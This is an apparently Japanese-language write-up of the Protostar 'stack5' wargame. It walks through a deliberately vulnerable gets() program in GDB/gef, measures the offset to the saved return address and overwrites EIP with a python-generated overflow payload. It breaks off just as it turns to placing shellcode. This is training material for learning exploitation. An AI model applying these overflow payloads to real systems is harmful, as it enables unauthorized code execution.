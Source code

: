 <!-- TITLE: Stack 5 -->
<!-- SUBTITLE: A quick summary of Stack 5 -->

# 問題

## 問題のパス

`/opt/protostar/bin/stack5`

## 問題のソースコード

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

非常にシンプルな仕上がり

# ファイルのコピー(scp)

```sh
(local) $ scp Protostar:/opt/protostar/bin/stack5 .
(local) $ ls | grep stack5
stack5
```

このように`scp`してローカルで基礎解析をしたほうが楽

# GDB解析 その1

## バッファオーバーフローを試す

例によって[`gef`](https://github.com/hugsy/gef/)を使う

```shell
(local) $ which gef
gef: aliased to gdb -q --ix $HOME/gef/gef.py
(local) $ gef ./stack5
GEF for linux ready, type `gef' to start, `gef config' to configure
66 commands loaded for GDB 7.11.1 using Python engine 3.5
⋮
Reading symbols from ./stack5...done.
gef➤  disas main
Dump of assembler code for function main:
   0x080483c4 <+0>:	push   ebp
   0x080483c5 <+1>:	mov    ebp,esp
   0x080483c7 <+3>:	and    esp,0xfffffff0
   0x080483ca <+6>:	sub    esp,0x50
   0x080483cd <+9>:	lea    eax,[esp+0x10]
   0x080483d1 <+13>:	mov    DWORD PTR [esp],eax
   0x080483d4 <+16>:	call   0x80482e8 <gets@plt>
   0x080483d9 <+21>:	leave  
   0x080483da <+22>:	ret    
End of assembler dump.
```

コードからもわかるとおり、`gets`関数が入力されたバイト数のチェックをしないため、バッファオーバーフローの脆弱性が存在する
breakpointを`gets`呼び出しの直後に貼って、文字列パターンを生成する
このパターンは、のちにオフセットの長さを測るのに用いる

```sh
gef➤  b *main+21
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
gef➤  pattern create 128
[+] Generating a pattern of 128 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
[+] Saved as '$_gef0'
gef➤  r <<< $(echo -n 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab')
⋮
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
⋮
$eip   : 0x61616174 ("taaa"?)
⋮
```

`$eip` (次の命令のアドレスを格納するレジスタ) が明らかに通常ではありえない値に書き換えられていることがわかった

## オフセットの値

次にこの*"taaa"*の文字列が`$eax`からどれほどアドレスが離れているかを調べる

```sh
gef➤  pattern search 0x61616174
[+] Searching '0x61616174'
[+] Found at offset 76 (little-endian search) likely
[+] Found at offset 73 (big-endian search) 
```

このバイナリはリトルエンディアンである

```sh
gef➤  elf-info 
Magic                 : 7f 45 4c 46
Class                 : 0x1 - 32-bit
Endianness            : 0x1 - Little-Endian
Version               : 0x1
OS ABI                : 0x0 - System V
ABI Version           : 0x0
Type                  : 0x2 - Executable
Machine               : 0x3 - x86
Program Header Table  : 0x00000034
Section Header Table  : 0x00004d28
Header Table          : 0x00000034
ELF Version           : 0x1
Header size           : 0 (0x0)
Entry point           : 0x08048310
``` 

よって、オフセットは **76**


# GDB解析 その2
先ほどとは入力文字列を変えて実行してみる
オフセットが **76** なので、

```sh
gef➤  r <<< $(python -c 'print "A"*76 + "\xef\xbe\xed\x1c" + "B"*128')
Starting program: /home/mkm/Develop/protostar/bin/stack5 <<< $(python -c 'print "A"*76 + "\xef\xbe\xed\x1c" + "B"*128')

Breakpoint 1, main (argc=0x42424242, argv=0x42424242) at stack5/stack5.c:11
⋮
gef➤  telescope $esp l30
0xffffd270│+0x00: 0xffffd280  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	 ← $esp
0xffffd274│+0x04: 0x0000002f ("/"?)
0xffffd278│+0x08: 0xf7e05dc8  →  0x00002b76 ("v+"?)
0xffffd27c│+0x0c: 0xf7fd31b0  →  0xf7df9000  →  0x464c457f
0xffffd280│+0x10: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	 ← $eax
0xffffd284│+0x14: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd288│+0x18: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd28c│+0x1c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd290│+0x20: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd294│+0x24: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd298│+0x28: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd29c│+0x2c: 0x41414141
0xffffd2a0│+0x30: 0x41414141
0xffffd2a4│+0x34: 0x41414141
0xffffd2a8│+0x38: 0x41414141
0xffffd2ac│+0x3c: 0x41414141
0xffffd2b0│+0x40: 0x41414141
0xffffd2b4│+0x44: 0x41414141
0xffffd2b8│+0x48: 0x41414141
0xffffd2bc│+0x4c: 0x41414141
0xffffd2c0│+0x50: 0x41414141
0xffffd2c4│+0x54: 0x41414141
0xffffd2c8│+0x58: 0x41414141	 ← $ebp
0xffffd2cc│+0x5c: 0x1cedbeef
0xffffd2d0│+0x60: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2d4│+0x64: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2d8│+0x68: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2dc│+0x6c: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2e0│+0x70: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2e4│+0x74: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x1cedbeef in ?? ()
⋮
$eip   : 0x1cedbeef
⋮
```

このように、適切なオフセットとパディング(今回は*"A"*)を用いることで、`$eip`を任意の値に書き換えられることがわかった

## どこに書き換えるか？

`$eip`を自由に書き換えられるということは、次に飛ばすアドレスを好きにできることである
この`$eip`を書き換えたスタックのアドレスの直後にshellcodeを仕込んで見る

ただし、`gets`を用いた際に新たにshellを開こうとすると、